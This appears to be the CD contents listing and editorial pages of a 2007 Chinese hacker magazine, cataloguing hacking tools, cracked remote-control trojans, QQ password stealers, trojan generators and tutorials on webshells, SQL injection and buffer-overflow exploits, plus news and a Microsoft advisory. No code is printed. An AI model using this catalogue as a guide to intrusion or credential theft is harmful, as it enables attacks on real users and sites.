- 网游保镖 v1.0
- 灰鸽子专杀 V1.0
- QQ 个性签名生成器
- 网站流量飙升工具
- 网站全球排名批量查询器 V2.2
- 南天之汉化小助手 V1.0
- SHOPEX 助理 V2.0
- phpcms 网站管理系统 2007 免费版
- 三雷网站内容管理系统单用户版 V5.0

#### 动画教室
- 去别人黑掉的站拿 WebShell 并去除他人的后门
- 超级隐藏自己的后门让别人找不到
- 让邪恶继续蔓延——深入挖掘最新版风讯 4.0sp3 漏洞
- phpwind5.x 最新 Oday 利用
- 1433 弱口令利用
- 绝对收信的 QQ 木马配置
- 拿点 Foosun4.0 shell
- 批量入侵 PHP 网站
- 社会工程学盗 QQ 最新方法
- 最新科讯拿后台 webshell
- 详细双开 3389
- qqgame 也外挂

### 2007 年 6 月

#### 黑客厨房
- PerlEditor5.3.1 中文版 | 出处：由论坛网友 wolfsea 推荐
- X-Scan v3.3
- 工具木马辅助查找器、IceSword 和文件夹加密工具
- QQ 变性器
- ▲MyCCL 复合特征码定位器 1.1 Build 58、Stuck_On_You_1.1r 等
- Slax 镜像修改工具 MySLAX_Creator.exe 和 U 盘启动工具 syslinux-3.36.zip
- 多桌面切换系统
- 风云防火墙
- 熊猫烧香病毒专杀工具
- DeDe3.50.04 Fix 超强版.rar、OllyICE.rar、peid.rar、CrackMe.exe
- 批量挂马器黑客手册专版
- 终极 Rootkit 终极版
- DNS 远程溢出工具
- ▲RemoteDOS 远程命令行控制软件
- SEU_Peeper 远程控制 0.2 版 + 源代码 0.2
- 枫叶文件加密器 V1.0
- 文件夹加密精灵 V2.9
- QQ 木马专杀 v1.61
- 木马防御大师 2006 V6.0
- Google 谷歌拼音输入法 V1.0.18.0
- XM 网络在线公司（企业）网站管理系统 v20070430
- Discuz! 社区营销插件 V0.1
- 智能天下图片网站管理系统 V1.1

#### 动画教室
- 注射入侵全攻略 1 - 入门介绍篇
- 注射入侵全攻略 2 - 入侵篇
- 注射入侵全攻略 3 - 提权篇
- google 在入侵中的应用
- 批量拿 shell
- 利用 Feedsky 的漏洞发送匿名邮件
- U 盘杀毒教程
- seamaster 原创溢出教程
- amalgam lite 使用
- 绕过一流信息监控系统上传
- phpwind、discuz 的跨站之旅
- 提权和建立系统用户

## 黑软集合
- 动力文章注入程序 v3.51
- 黑客小助手
- 黑客记事本
- TinyRAT 远程控制源代码
- 终极网马生成器 Wm6Beta4
- ANTIFW：一种比较 bt 的过防火墙的方式
- 上兴远程控制 vip 2007 sp2 0601 正式版完美破解
- sharK 鲨鱼远程控制 2.2
- 灰鸽子 1.23 破解版
- 两只老虎 webshell1.0 测试版
- PcShare 远程控制（20070722 免费版本）
- 日志清除器
- 金猪流量王
- LiQQ 密码大盗 - 过最新 QQ2007BETA3
- 挂马辅助监视器 v1.1
- 招财童子最新桃仙木马生成器
- 最新招财童子完美国际木马生成器
- 天阳捆绑机
- 枫影工具包
- 武林黑手 2007 beta 2
- Radmin Viewer 3.0 深度汉化版
- InPe 内部壳
- 局域网助手（LanHelper）
- 吞噬者黑色生成器
- 新手工具包：集成 S 扫描器、Telnet 连接、3389 连接、NC 监听等功能。

## 实用工具
- Okoker CD And DVD Burner v2.9，一款专业方便的 CD&DVD 刻录工具
- 微点主动防御软件
- Xilisoft Video Converter v3.1.37.0727b：一款视频转换工具
- Pando v1.7.0.2：一个免费的网络文件发送软件
- 腾讯 QQ Beta4 v5.0c 珊瑚虫集成版
- 新浪 UC 2007 音乐版 1.0
- 完美卸载 v2007
- 口袋书屋手机电子书制作 v2.1
- 超级兔子快乐影音 v3.5 正式版

## 数据库学习
- Access2003 中文版应用基础教程
- Access2003 入门与提高实用教程
- Java 数据库编程宝典
- Java 数据结构和算法（第二版）
- Java 程序设计 - EJBXML 与数据库
- Microsoft Jet SQL 参考
- MSSQL2000 菜鸟进阶教程
- Oracle.Database.10g 实用培训教程
- Oracle 数据库 DBA 专题技术精粹
- Oracle 数据库管理与维护技术手册
- Oracle 的入门心得
- 精通 Oracle.10g.Pl.SQL 编程
- 精通 ORACLE.10G 备份与恢复
- Unix 和 Linux 下的 Oracle 数据库管理
- DB2 基础教程
- MYSQL 完全手册
- MYSQL 数据库大进击
- MySQL 网络数据库指南
- 分布式数据库系统及其应用
- 数据库系统概念
- 点击流数据仓库
- 现代数据库管理第七版
- 面向对象数据库系统及其应用
- 空间数据库
- 轻松掌握 SQL（第四版）
- sql2000 自学教程
- sqlserver7 数据库管理与应用开发
- SQLSERVER 导入 ORACLE 数据库
- SQLServer 高级开发与专业应用
- SQL 实用教程第二版
- Sybase.ASE12.5 性能优化

## C 语言相关

#### 电子书籍
- 《C 程序设计语言》英文第 2 版课后答案
- 经典 C 程序 100 例
- C++ 实践之路
- C 和 C++ 代码精粹
- C 和指针- C 陷阱与缺陷
- C 专家编程
- C++ 和面向对象的数值计算
- C++ 沉思录
- C++ 代码设计与重用
- C++ 面向对象多线程编程
- C 程序设计语言（第 2 版）中文译版
- C 程序设计语言（第 2 版）新版
- C 程序设计语言（第 2 版）新版习题解答
- C 语言解析教程
- 21 天学 C 语言

# 程序源码

- 五子棋代码
- bioskey 函数
- textmode 函数
- clrscr 函数
- putch 函数
- cputs 函数
- gotoxy 函数
- textcolor 例程
- delay 例程
- sound 函数
- nosound 函数
- 源代码参考
- 练习题解答
- ……

# 相关软件

## Dev-C++

Dev-C++ 是一个 C++ 开发工具，它包括多页面窗口、工程编辑器，在工程编辑器中集合了编辑器、编译器、连接程序和执行程序。它也提供高亮度语法显示，以减少编辑错误。

## DJGPP

DJGPP 是一个 GNU 软件，换句话说，你可以得到它整个系统的源代码，且可以任意修改。正因如此，比起其它的商业化 C 系统，技术的发展要快得多，无数计算机高手不停地在完善它，为它注入新的活力；而被发现的 BUG 也能在第一时间被去掉。通过网络，你永远可以使用到世界上的最新技术，而且不用为其付费！DJGPP 的 32 位保护模式引擎 CWSDPMI 速度快，体积小，而且它还拥有丰富的外围软件。

## [动画教程——基础] ▣ ▣ ▣ ▣ ▣ ▣

- 虚拟机软件的使用
- 木马初识
- 灰鸽子木马的应用
- 扫描软件初识
- 网络 DOS 命令基础

- X-scan 使用之 ipc$ 弱口令入侵
- 嗅探网络密码实战
- SQL 弱口令的入侵
- 远程开启终端服务的工具的使用
- radmin 服务端最新配置方法
- 开终端工具 3389
- △小型 FTP 软件 TFTPD32 及相关工具包
- 远程开启 TELNET 服务工具的使用
- 克隆账号，建立隐藏的账号
- 查找管理员密码
- 端口映射工具的使用
- 防火墙配置
- 代理服务器详解
- 如何调试 ASP 程序
- 用 NETBOX 架个 ASP 服务器
- ASP 木马的初识
- 反弹木马的使用
- 简单破解软件
- 动网上传漏洞利用

## [动画教程——中级] ▣ ▣ ▣ ▣ ▣ ▣

### 第一天 基础知识以及往日教学回顾

- 1、安装虚拟机；
- 2、安装虚拟机复习加强 2；
- 3、安装 Windows 2000 Server 教程

知识点：

- 1、虚拟机的概念，为什么要安装虚拟机？
- 2、扫描软件的概念，为什么要扫描？

作业：

- 安装虚拟机；
- ping 通；
- 能用 3389 登录虚拟机！

### 第二天 扫描软件基础以及 WebDAV 漏洞溢出

- 1、扫描软件基础；
- 2、webdavx3

知识点：

- 1、X-scan 扫描的使用
- 2、Windows 2000 Server 的安装！

作业：

- 学会使用 △X-scan 扫描主机；
- 用 △webdavx3 溢出攻击；
- 用 telnet 远程登录

### 第三天 Snake、ida、idq、printer 漏洞的远程溢出

相关工具：

- △IIS Snake、ida、idq 的远程溢出工具；
- △iis5hack 及 idahack.printer 漏洞远程溢出工具

作业：

- 用 nc 监听本地端口，实践正向连接、反向连接

### 第四天 Windows RPC DCOM 的远程溢出

演示动画：

- dcomrpc 工具的使用 + △相关工具
- Windows RPC DCOM 长文件名的 △rpcloname 溢出工具

### 第五天 RPC LOCATOR、ASP 溢出

知识点：了解 locator 服务及 aspcode 溢出工具的使用

相关工具：

- △rpc_locator 及 RPC LOCATOR 漏洞的远程溢出工具；
- △aspcode ASP 漏洞远程溢出工具

### 第六天 MSSQL hello、sql2、thcsql 溢出

演示动画：

- 1、mssql hello 溢出攻击
- 2、mssql sql2 溢出攻击与 thcsql 溢出
- △相关工具包

### 第七天 Windows Media、Windows Mess 溢出

演示动画：

- Windows Media 服务器溢出及 △利用工具
- Windows Mess 消息溢出

### 第八天 溢出漏洞的利用 1

- ccproxy 溢出漏洞的利用及 △相关工具
- ms04-045 批量溢出及 △相关工具
- ms05-002 溢出的使用及 △相关工具

### 第九天 溢出漏洞的利用 2

- ms05-016 溢出的使用
- ms05-020 溢出的使用

### 第十天 溢出漏洞的利用 3

- △ms05-016 利用工具和 ms05-037 利用源代码
- [更多详情请浏览光盘]

## [缓冲区溢出教程]


### ◇第一章

- FoxMail 溢出利用程序
- Printer 漏洞初步溢出程序
- 轻松将 JMP ESP 方式改写为 JMP EBX 方式
- .printer 漏洞的 call ebx 利用方式
- ISNO 写的 .printer 漏洞利用程序
- ida/idq 漏洞利用程序
- ……

### ◇第二章

- 开 DOS 控制台 C 实现
- 开 DOS 控制台部分汇编实现
- 开 DOS 控制台完全汇编实现
- 开 DOS 控制台的机器码实现
- 用函数地址完成开 DOS 控制台功能
- 自动查找函数地址
- 获取 system 和 LoadLibraryA 函数的地址
- 添加用户的 C 实现
- ……
- 添加用户的汇编实现
- 添加用户的另一种 C 实现
- Windows 对话框的汇编实现
- Windows 对话框的 ShellCode
- Windows 对话框的 C 实现
- ……

### ◇第三章

- socket 编程的服务端程序
- socket 编程的客户端程序
- 用 CreateProcess 开 DOS 控制窗口
- 双管道后门汇编实现
- 测试双管道 ShellCode 的方法
- 双管道后门 C 实现
- 单管道后门 C 实现
- 自动查找双管道后门所用函数地址
- 零管道后门 C 实现
- 反向后门的 C 实现
- 网络瑞士军刀——netcat.exe
- ……

### ◇第四章

- 堆分配例子
- 过长字符串引发堆异常
- 定位堆溢出点个位
- 定位堆溢出点十位
- 验证堆溢出点位置
- 堆 Allocate 溢出直接定位利用程序
- 堆 Allocate 溢出 call esi+4C 利用程序
- isno 写的 GetTopSeh.c，以获得默认异常处理地址
- 自动查找 jmp esp 指令地址
- 自动查找 call [esi+4c] 指令地址
- Message 堆漏洞的利用程序
- 堆释放引发异常例子
- 堆 free 溢出的利用程序
- JPEG 漏洞的利用程序
- ……

### ◇第五章

- 异或开控制台窗口的 ShellCode
- 开控制台窗口的异或法编码测试
- 开控制台窗口的异或法编码
- 异或法的编码 C 代码
- 异或法的解码汇编代码
- 直接替换法的编码 C 代码
- 开控制台窗口 ShellCode 的直接替换法编码
- 直接替换法的解码汇编
- 开控制台窗口的直接替换法编码
- Serv-U 的攻击代码
- 查找标志的汇编实现
- 开控制台窗口的微调
- z = a+b 拆分的编码 C 实现
- z = a+b 拆分的解码汇编实现
- z = a+b 拆分的解码 ShellCode
- ……

## ◆ 第六章

- yuange 的暴力搜索定位
- 监听后门动态定位的 ShellCode
- 监听后门的动态实现汇编代码
- HASH 法查找函数地址
- C 语言直接提取 ShellCode
- 恢复堆链表的代码
- 复用端口，突破防火墙
- 通过 PEB 动态定位 GetProcAddress 函数地址
- 给 CCProxy 发送超长字符串
- ……

## ◆ 第七章

- 定位千位溢出点
- 定位百位溢出点
- 定位十位溢出点
- 定位个位溢出点
- 给 CCProxy 发送超长字符串的 Python 程序
- ssl 包装器
- 定位 CCProxy 个位溢出点的 py 程序
- 定位 CCProxy 十位溢出点的 py 程序
- 定位 CCProxy 千位溢出点的 py 程序
- 给 warFtp 发送超长字符串
- 定位 warFtp 个位溢出点
- 定位 warFtp 十位溢出点
- 定位 warFtp 百位溢出点
- warFtp 的攻击利用 py 程序
- 校验 warFtp 的溢出点位置
- 利用 NetApi.dll 攻击 LSA 漏洞
- 直接构造包攻击 LSA 漏洞

## 工具速递

- 蓝屏 ASP 木马 2005
- Access 密码查看器 3.0
- ▲ Radmin 2.1 暴力破解器
- ▲ Insurrection 汉化版 1.0
- ▲ QQ Sniffer V2.4 改良版
- 肉鸡保护器 1.01
- 局域网助手 1.40 简体中文破解版
- ▲ 灰鸽子 12.12 服务端
- ▲ EXE 转 VBS 的小程序
- ShellCode 自动生成工具
- Linice 版本信息 2.0
- ASM_2_ShellCode 自动转换工具
- EXE2HBDO 版本信息 V.01
- 程序大战 1.0
- 冰刃 IceSword 1.06
- ▲ lanker 微型 PHP 后门客户端
- ▲ 海阳顶端网 2005 官方正式版
- ▲ IP 发送者 V1.5
- 键盘记录者 V5.6 注册版
- ▲ 密码监听器 2.0 注册版
- Borland C++ Builder 编辑工具 5.5
- 网络执法官 V1.94
- ……
- 另附本书 EXE 电子版
- [更多详情请浏览光盘]

## 光盘目录 DISK2

## [有声教程]

### C 语言程序设计

#### ◆ 第一章 C 语言的结构

- 1. 程序的构成，main 函数和其他函数
- 2. 头文件、数据说明、函数的开始和结束标志
- 3. 源程序的书写格式
- 4. C 语言的风格

#### ◆ 第二章 数据类型及其运算

- 1. C 的数据类型（基本类型、构造类型、指针类型、空类型）及其定义方法
- 2. C 运算符的种类、运算优先级和结合性
- 3. 不同类型数据间的转换与运算
- 4. C 表达式类型（赋值表达式、算术表达式、关系表达式、逻辑表达式、条件表达式、逗号表达式）和求值规则

#### ◆ 第三章 基本语句

- 1. 表达式语句，空语句，复合语句
- 2. 数据的输入与输出，输入输出函数的调用
- 3. 复合语句
- 4. goto 语句和语句标号的使用

#### ◆ 第四章 选择结构程序设计

- 1. 用 if 语句实现选择结构
- 2. 用 switch 语句实现多分支选择结构
- 3. 选择结构的嵌套

#### ◆ 第五章 循环结构程序设计

- 1. for 循环结构
- 2. while 和 do while 循环结构
- 3. continue 语句和 break 语句
- 4. 循环的嵌套

#### ◆ 第六章 数组的定义和引用

- 1. 一维数组和多维数组的定义、初始化和引用
- 2. 字符串与字符数组

#### ◆ 第七章 函数

- 1. 库函数的正确调用
- 2. 函数的定义方法
- 3. 函数的类型和返回值
- 4. 形式参数与实际参数，参数值的传递
- 5. 函数的正确调用，嵌套调用，递归调用
- 6. 局部变量和全局变量
- 7. 变量的存储类别（自动、静态、寄存器、外部），变量的作用域和生存期
- 8. 内部函数与外部函数

#### ◆ 第八章 编译预处理

- 1. 宏定义：不带参数的宏定义；带参数的宏定义
- 2. “文件包含”处理

#### ◆ 第九章 指针

- 1. 指针与指针变量的概念，指针与地址运算符
- 2. 变量、数组、字符串、函数、结构体的指针，以及指向变量、数组、字符串、函数、结构体的指针变量。通过指针引用以上各类类型数据
- 3. 用指针作函数参数
- 4. 返回指针值的指针函数
- 5. 指针数组，指向指针的指针，main 函数的命令行参数

#### ◆ 第十章 结构体（即“结构”）与共用体（即“联合”）

- 1. 结构体和共用体类型数据的定义方法和引用方法
- 2. 用指针和结构体构成链表，单向链表的建立、输出、删除与插入

#### ◆ 第十一章 位运算

- 1. 位运算符的含义及使用
- 2. 简单的位运算

#### ◆ 第十二章 文件操作

只要求缓冲文件系统（即高级磁盘 I/O 系统），对非标准缓冲文件系统（即低级磁盘 I/O 系统）不要求。

- 1. 文件类型指针（FILE 类型指针）
- 2. 文件的打开与关闭（fopen、fclose）
- 3. 文件的读写（fputc、fgetc、fputs、fgets、fread、fwrite、fprintf、fscanf 函数），文件的定位（rewind、fseek 函数）

- 第九讲 选择结构的程序设计
- 第十讲 IF 语句
- 第十一讲 开关语句
- 第十二讲 循环结构程序设计
- 第十三讲 do-while 循环、for 循环、循环的嵌套
- 第十四讲 几种循环的比较、break 语句和 continue 语句
- 第十五讲 程序举例
- 第十六讲 一维数组
- 第十七讲 二维数组
- 第十八讲——第十九讲 字符串数组
- 第二十讲 函数
- 第二十一讲 函数参数和函数的值
- 第二十二讲 函数的嵌套调用
- 第二十三讲 局部变量与全局变量
- 第二十四讲 指针
- 第二十五讲 指针变量的定义与引用
- 第二十六讲 指针和数组
- 第二十七讲 结构体
- 第二十八讲 指向结构体类型变量的指针
- 第二十九讲——第三十三讲 复习总结

[更多详情请浏览光盘]

## C 语言

- 第一讲 C 语言概述
- 第二讲 程序的灵魂——算法
- 第三讲 数据类型、运算符与表达式
- 第四讲 整型数据、实型数据、字符型数据
- 第五讲 变量赋初值、不同类型数据间的混合运算、算术运算符和算术表达式、赋值运算符和赋值表达式
- 第六讲 逗号运算符和逗号表达式
- 第七讲 字符数据的输入输出
- 第八讲 格式输入输出



## 黑客手册

非安全网络安全教程  
2007 01  
¥10.8

黑客系漫游指南 投稿 Mail：nohack@21cn.com WWW.NOHACK.CN

生态黑客 ◎自由独行的边缘文化 [本手册仅随 CD 一同赠送 不得单独销售]

## [跨年盛宴]：菜鸟成长日记

- ①拜师惨遭欺骗
- ②从无到有的艰辛历程

### 教你找漏洞

PHP 漏洞的检查 文件包含漏洞

### 反黑精英

如何识别文件是否捆绑木马  
如何处理解决捆绑木马文件

### 中国黑客团队

### 原始记录：岁月如歌

### 敏感话题

通过命令行协议我们都被洗刷了  
HomaL 漏洞抢注国务院办公厅的 MSN

## NEW HACK

- Symantec Antivirus 远程栈溢出漏洞入侵实战
- 侦探防火墙之后的数据库
- 友情检测 中国教育信息网
- 新年前夕之跨高校图书馆之旅
- 渗透中国网络战队
- 简简单单杀进中国电信
- 新上传漏洞是这么发现的
- ——记 FCKeditor 上传漏洞发现全过程
- 注入、跨站、击垮中韩秀留言簿
- F2BLOG 漏洞终结者

### 光盘精彩内容

- [工具] 黑洞黑手版 / 英雄雨马黑手版 / 键盘记录 BlueStar 黑手版
- [动画] 反黑精英之入侵防御 / 新年肉鸡简单抓 / SQL 权限注射全程
- 【动漫】Black Lagoon（黑礁）精彩枪战
- 【音乐】《天堂鸟》推销音乐精选
- 【GAME】测试你的脑年龄
- 【FLASH】吉他古筝——流水禅心（清曲版）+ 真词版
- 【书城】freeBSD 使用大全 / 一周内学会 Linux 系统管理
- 【直销】时光电影


Happy New Year

感情  
我的黑客恋人  
黑客路漫漫




## 这个世界需要乱想 写在前面

新年新气象，一年又一年！

废话不多说，首先当然是祝贺大家新年快乐，“甜劈妞业（Happy New Year）”……在大家的支持下，我们又一起跨入了 2007 年，读者多了，朋友多了，感情更好了……非常感谢广大读者给某猴送来的“妹儿”，在这寒冬冷风之夜，也只有通过她来感受丝丝暖情……

想象能力也许应该是人类与动物的区别之一，经过多年的研究发现，其实最大的区别在于脑容量的大小。虽然说脑容量决定了想像力，但应该是细胞的活跃和思维的无限拓展才造就了创意无穷。

猜解技术作为黑客必备的基本能力之一，很大程度是建立在想像能力上的，也具有很大一部分社会工程学的原理。当使用常规猜解无法取得进展时，那就需要乱想了！

打破常规，颠覆传统，这是需要执著的毅力的！想像不能束缚，也是束缚不了的。有时候乱想当中也有乐趣，比如大家比较熟悉的字母缩写。缩写一般都是应用于外文短句的简称，但在国内，大家发挥了传统的“拼音”优势，更是把缩写颠覆到了“珠穆朗玛”的高度……

比如 BMW，德语全称为 Bayerische Motoren Werke；英语全称为 Bavarian Motor Works，其实就是“巴伐利亚机械制造厂”的意思。在电影《疯狂的石头》中被“拼音优势”戏称为了“别摸我”，某猴更是融入了符合国情的理解，读成了“弼马温”！

再拿 MSN 来说，这个大家也有用的吧？微软的即时通信软件，全称貌似是 Microsoft Service Network。且不论官方全称，网友们改的名称就更多了，什么迷死你（挺 MS 者）、骂死你（反 MS 者）、慢死你……某猴更喜欢戏称为“美少女”……

当然，对于这些缩写及简称，每个人都有自己的一套猜解。在这个知识改变命运、个性决定人生的年代，任何时候都不能放弃对自己思维的拓展。

另外，本刊收到黑情处（黑客情报处理中心）密电，经查实，上期杂志中有几篇文章属于一稿多投！！！借本期刊头，特别强烈谴责这种恶劣行为，希望投稿者自重自爱，并欢迎读者监督和提供相关线索，谢谢！

快过年了，《黑手》连续几期地为大家奉献出了节日大餐，记得下月的约会哦。提前爆料：新春特辑《免费电影大赏……》，有得学有得看……学习娱乐就要《黑手》！

眼镜猴：光盘投稿 / 交流信箱：cd@nohack.cn




## 新闻概要

新的一年开始了，小迷我先在这里对一直支持《黑客手册》的朋友说声新年快乐！祝大家在新的一年里一帆风顺，日进斗金，爱情事业都顺利……（ps：省略 N 多祝福）。也许是因为新年的原因，网络这片没有硝烟的战场越来越热，势头有增无减，黑客已经不再局限于网络这块战地，即将开辟新的战场。就在黑客准备开辟新战场的时候，微软老大哥也做出了相应的反击，起诉了 100 多名网络钓鱼骗局制造者……更多精彩内容请往下看。

## 国际黑客欲发动世界大战，将攻陷所有网上目标

据英国媒体报道，国际黑客打算整合世界各地的力量，在 2007 年庞大的互联网上开辟一条新的战线，打一场世界大战。国际黑客们此次大战的攻击目标主要有 ICQ、MSN 等即时工具，还包括接入互联网的手机、社会公益网站、新版 IE 浏览器以及新推出的 VISTA 操作系统。

小迷点评：看来 2007 年绝对不会是风平浪静的，难道黑客也知道一年之计在于春？

### 黑客将开辟新战场

安全专家预测，2007 年，计算机黑客将在“电脑大战”中开辟新的战场，攻击手机、即时通讯、MySpace 等社区网站。随着网络逐渐和个人生活融合的同时，黑客将通过社会工程学来搜集资料，对用户进行更有针对性的攻击。

小述点评：不得不佩服黑客的思路，我想在新的一年里又会有一场没有硝烟的战争要打响了，让我们拭目以待吧！

### 黑客利用 Firefox 2 和 IE 7 缺陷窃取信息

Firefox 2 和 IE 7 都存在一个缺陷：黑客能够通过显示一个虚假的登录表单而窃取用户的账户名和密码。当用户访问可信赖的博客或论坛网站时，他们的资料可能会在不知不觉之间被窃取。虚假的网页不会显示出任何外部内容的蛛丝马迹，而且攻击是在可信赖的站点上发生的，浏览器也不会报警。目前厂商还未发布相关补丁。

小述点评：不知道现在还有什么是安全的，以前可以放心访问的网站现在都要在心里先琢磨下。成天提心吊胆地访问网站，我想迟早会得抑郁症吧！希望厂商尽快给出相关补丁，让大家能够放心地在网络冲浪！

### 山东省公安厅网站被黑，攻击者勒索公安部门！

大约在 2006 年 12 月 19 日下午 15 时左右，Q 友发来线报：发现山东省公安厅网站（http://www.sdga.gov.cn）被黑，hacker 留下相关内容及 QQ 号码，并要求付费修复漏洞。本编在 19 日下午 16 时访问时确实见到了被黑页面，而在 20 分钟左右后网站就无法访问了……难道相关负责人已经采取行动了（到银行打款？）？那么这个 hacker 能够获得他应得的东西吗？

小述点评：“有漏洞的都黑”，是这位 hacker 在被黑网站的留言之一，也不知道他对服务器的操作只是改头换面（修改首页）还是剥皮抽筋（破坏数据）。许多朋友在千辛万苦找出漏洞后，都喜欢恶作剧地小小炫耀宣传一番，不过这位朋友似乎以修复漏洞为职业了，修复自然还是要收费的嘛！

### 中国 7.5% 的恶意软件为盗取 QQ 密码

11 月 23 日消息，据英国安全公司 Sophos 的统计结果显示，中国 50% 的恶意软件旨在盗取用户名和密码，而这其中 45.2% 的恶意软件旨在盗取在线游戏的登录信息，7.5% 的恶意软件旨在窃取 QQ 的账号和密码。

小述点评：当看到这个消息时，真的很吃惊，真的没有想到百分比竟然如此之高！看来中国的人才还真是不少，要是都投身到祖国 IT 事业的发展建设的话，我想我们的祖国一定会更加强大。在此小述也提醒广大朋友，尽量不要在不同的网站使用相同的用户名和密码，否则，用户名和密码被盗取的可能性就会很大。


### Microsoft Visual Studio “WMI Object Broker” 控件代码执行漏洞

受影响系统：
- Microsoft Visual Studio 2005

描述：
BUGTRAQ ID: 20843  
CVE(CAN) ID: CVE-2006-4704

Microsoft Visual Studio 是微软公司的开发工具套件系列产品，是一个基本完整的开发工具集，包括了软件整个生命周期中所需要的大部分工具。

Visual Studio 的“WMI Object Broker”控件在例程的创建和处理上存在漏洞，远程攻击者可能利用此漏洞在用户机器上执行任意恶意代码。

Visual Studio 所捆绑的 WMI Object Broker ActiveX 控件允许创建系统上已有的 ActiveX 控件例程。以这种方式创建的 ActiveX 对象会绕过 ActiveX 安全限制，如忽略 kill bit 和 safe for scripting 选项。如果用户受骗浏览了特制 HTML 文档的话，就可能导致利用者以该用户的权限执行任意代码。

- 临时解决方法：
- 禁止在 Internet Explorer 中运行 WMI Scripting 控件；
- 配置 Internet Explorer 在运行活动脚本和 ActiveX 控件前提示，或禁止在 Internet 和本地 intranet 区中运行活动脚本和 ActiveX 控件；

将如下内容保存为 .reg 文件：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{7F5B7F63-F06F-4331-8A26-339E03C0AE3D}]
"Compatibility Flags"=dword:00000400
```

双击生成的 .reg 文件应用到系统。

- 将 Internet 和本地 intranet 区设置为“高”。

厂商补丁：  
Microsoft

Microsoft 已经为此发布了一个安全公告（MS06-073）以及相应补丁：  
MS06-073: Microsoft Security Bulletin MS06-073  
链接：http://www.microsoft.com/technet/security/bulletin/ms06-073.mspx

### GnuPG OpenPGP 畸形消息处理函数指针覆盖漏洞

受影响系统：
- GNU GNU Privacy Guard < 2.0.2
- GNU GNU Privacy Guard < 1.4.6

描述：
BUGTRAQ ID: 21462  
CVE(CAN) ID: CVE-2006-6235

